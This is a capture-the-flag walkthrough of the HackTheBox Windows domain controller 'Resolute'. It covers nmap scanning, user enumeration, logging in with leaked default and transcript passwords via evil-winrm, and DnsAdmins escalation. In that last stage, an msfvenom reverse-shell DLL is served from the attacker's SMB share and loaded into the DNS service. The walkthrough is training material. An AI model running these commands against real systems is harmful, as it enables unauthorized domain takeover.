





# Resolute



__Task__: Find [user.txt](#user-flag) and [root.txt](#root-flag)

### Penetration Methodologies

__Scanning__

- nmap

__Enumeration__

- enum4linux

__Exploitation__

- Weak password policy

__Priv Esc__

- DNS Admin Privilege Escalation 

***

This is my guide to the HackTheBox Windows machine _Resolute_.

## User Flag

First thing’s first. I run my `nmap` scan. _Resolute_ is running a ton of services, all pointing to a potential Active Directory DC. 

- __sC__: Enable common scripts

- __sV__: version and service on the port 

- __O__: remote OS detection using fingerprinting

```
# Nmap 7.80 scan initiated Sat May 23 14:52:02 2020 as: nmap -sC -sV -O -oA scan169 10.10.10.169
Nmap scan report for 10.10.10.169
Host is up (0.059s latency).
Not shown: 989 closed ports
PORT     STATE SERVICE      VERSION
53/tcp   open  domain?
| fingerprint-strings: 
|   DNSVersionBindReqTCP: 
|     version
|_    bind
88/tcp   open  kerberos-sec Microsoft Windows Kerberos (server time: 2020-05-23 20:02:44Z)
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: megabank.local, Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: MEGABANK)
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap         Microsoft Windows Active Directory LDAP (Domain: megabank.local, Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port53-TCP:V=7.80%I=7%D=5/23%Time=5EC97EF0%P=x86_64-pc-linux-gnu%r(DNSV
SF:ersionBindReqTCP,20,"\0\x1e\0\x06\x81\x04\0\x01\0\0\0\0\0\0\x07version\
SF:x04bind\0\0\x10\0\x03");
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=5/23%OT=53%CT=1%CU=44091%PV=Y%DS=2%DC=I%G=Y%TM=5EC97F8
OS:E%P=x86_64-pc-linux-gnu)SEQ(SP=101%GCD=1%ISR=10B%TI=I%CI=I%II=I%SS=S%TS=
OS:A)OPS(O1=M54DNW8ST11%O2=M54DNW8ST11%O3=M54DNW8NNT11%O4=M54DNW8ST11%O5=M5
OS:4DNW8ST11%O6=M54DST11)WIN(W1=2000%W2=2000%W3=2000%W4=2000%W5=2000%W6=200
OS:0)ECN(R=Y%DF=Y%T=80%W=2000%O=M54DNW8NNS%CC=Y%Q=)T1(R=Y%DF=Y%T=80%S=O%A=S
OS:+%F=AS%RD=0%Q=)T2(R=Y%DF=Y%T=80%W=0%S=Z%A=S%F=AR%O=%RD=0%Q=)T3(R=Y%DF=Y%
OS:T=80%W=0%S=Z%A=O%F=AR%O=%RD=0%Q=)T4(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=
OS:0%Q=)T5(R=Y%DF=Y%T=80%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=80%W=0%
OS:S=A%A=O%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=80%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(
OS:R=Y%DF=N%T=80%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=
OS:N%T=80%CD=Z)

Network Distance: 2 hops
Service Info: Host: RESOLUTE; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 2h30m33s, deviation: 4h02m31s, median: 10m32s
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: Resolute
|   NetBIOS computer name: RESOLUTE\x00
|   Domain name: megabank.local
|   Forest name: megabank.local
|   FQDN: Resolute.megabank.local
|_  System time: 2020-05-23T13:03:15-07:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2020-05-23T20:03:16
|_  start_date: 2020-05-23T18:24:50

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat May 23 14:54:54 2020 -- 1 IP address (1 host up) scanned in 172.73 seconds
```

After the results come back, I also run a full port scan to see if any additional ports may be open. 

```bash
$ sudo nmap -sC -sV -O -p- -oA full169 10.10.10.169
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
```

The port that I make note of from the full scan is 5985. This tells me that the box is running `WinRM 2.0 (Microsoft Windows Remote Management)`. Once I find some credentials, I may be able to gain a foothold through this service.

Next, I run `enum4linux`, a tool primarily used to enumerate Windows or Samba systems.

```bash
$ enum4linux -U -o 10.10.10.169
```



It looks like an admin mistakenly left a default password in the description on a user account. Odds are, one of these users may not have changed their default password. 

Using `evil-winrm`, a Windows Remote Management tool for pentesting, I try each username with the password. Eventually, I successfully log in with as melanie, attaining a foothold on _Resolute_.

```bash
$ evil-winrm -i 10.10.10.169 -u melanie -p 'Welcome123!'
```


Once in, I find the user flag on melanie’s desktop.


## Root Flag

Next, I need to escalate privileges. I start looking around the file system, seeing if anything stands out. I soon find a PowerShell log within the directory `C:\PSTranscripts\20191203` that may contain something of interest.

```powershell
> type PowerShell_transcript.RESOLUTE.OJuoBGhU.20191203063201.txt
```

Within this transcript is a password for the user ryan. Additionally, the password may imply that ryan has some level of administrative privileges.



Using my newly attained credentials, I log in as Ryan using `evil-winrm`. 

```bash
$ evil-winrm -i 10.10.10.169 -u ryan -p 'Serv3r4Admin4cc123!'
```

On ryan’s desktop there is a note that indicates that all changes are reverted within a minute. I’ll keep that in mind as I continue.


Next, I want to see if ryan has any unique privileges. I use `net user` and can see that ryan is in the `Contractors` group. This indicates to me that he may have administrator rights. Because _Resolute_ also has DNS enabled, I can assume that ryan is also a DNS Admin or has write privileges to the DNS server object.

```powershell
> net user ryan /domain
Global Group memberships     *Domain Users         *Contractors
```

[This article](https://medium.com/techzap/dns-admin-privesc-in-active-directory-ad-windows-ecc7ed5a21a2) has a great write-up on how to abuse a DNS Admin account to escalate privileges. For brevity, I will inject a poisoned DLL into the DNS executable, which will create a SYSTEM-level shell when the DNS process is restarted.

Using msfvenom, I will create the malicious DLL payload.

```bash
$ msfvenom -a x64 -p windows/x64/shell_reverse_tcp LHOST=10.10.14.234 LPORT=4444 -f dll > privesc.dll
```

I set up a listener as well, in preparation for the reverse shell.

```bash
$ nc -lvnp 4444
```

Now I need to get my payload onto the machine. I choose to host the payload on my machine using `smbserver.py` from [impacket](https://github.com/SecureAuthCorp/impacket).

```bash
$ sudo python smbserver.py share ./
```

On the _Resolute_ box, I run the command to retrieve my poisoned DLL and inject it into `dns.exe`.

```powershell
> dnscmd Resolute.megabank.local /config /serverlevelplugindll \\10.10.14.234\share\privesc.dll
```

Finally, I restart DNS. This needs to be done relatively quickly to avoid changes being reverted.

```powershell
> sc.exe stop dns
> sc.exe start dns
```



My reverse shell connects and I confirm that I have successfully rooted the box!



On the Administrator's desktop I find the final flag.


***

Overall, I really enjoyed this box. Being one of my first Windows machines, I learned a lot about Windows enumeration, and it was beneficial seeing this sort of privilege escalation. I also thought the use of poor password policies and account management was a realistic way to gain unauthorized access. 

### Rankings:

__Real-life Applicable__: 8/10

__Common Vulnerabilities__: 8/10

__Enumeration__: 6/10
